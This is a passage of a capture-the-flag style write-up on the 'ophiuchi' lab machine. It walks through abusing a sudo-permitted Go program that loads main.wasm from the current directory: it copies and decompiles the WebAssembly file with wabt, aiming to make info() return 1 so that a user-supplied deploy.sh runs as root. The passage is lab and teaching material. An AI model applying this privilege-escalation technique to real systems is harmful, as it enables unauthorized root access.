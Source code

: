 So, it loads a `main.wasm` file, pulls an `info` exported function from it and executes it, then checks the return value to see if it is `1`. If it is `1`, it then executes `/bin/sh deploy.sh`. 

The good news about the above is that there are no paths specified, meaning that it will pull from the current working directory. So if we can get `info()` to return `1`, we should be good.

Additionally, in the directory where `index.go` is located, there's a `main.wasm` file. Lets see if we can just execute using it.

```
$ cp /opt/wasm-functions/main.wasm .
admin@ophiuchi:/tmp$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Not ready to deploy
```

No such luck, it looks like the `main.wasm` file is not returning `1`.

We have a few options
1. We can try to craft our own `wasm` file that exports a `info` function and return `1` from it
2. We can try to edit the existing `main.wasm` file to adjust `info` to return `1`.

Since I've never crafted a `wasm` file before, I opted to go for the second option. It looks like we can disasemble `wasm` into an editable format using [wabt](https://github.com/webassembly/wabt). 

```bash
$ git clone https://github.com/WebAssembly/wabt.git
$ cd wabt
$ git submodule update --init
$ mkdir build
$ cd build
$ cmake -DBUILD_TESTS=OFF .. 
$ cmake --build .
```

After successfully building, we can use `wasm2wat` to decompile the `wasm` file and `wat2wasm` to compile it back into a `wasm` file.

```bash
$ scp admin@10.10.10.227:/opt/wasm-functions/main.wasm .
$ wabt/bin/wasm2wat main.wasm -o main.wat
```

The `wat` file is pretty straightforward

```
(module
  (type (;0;) (func (result i32)))
  (func $info (type 0) (result i32)
    i32.const 0)
  (table (;0;) 1 1 funcref)
  (memory (;0;) 16)
  (global (;0;) (mut i32) (i32.const 1048576))
  (global (;1;) i32 (i32.const 1048576))
  (global (;2;) i32 (i32.const 1048576))
  (export "memory" (memory 0))
  (export "info" (func $info))
  (export "__data_end" (global 1))
  (export "__heap_base" (global 2)))
```

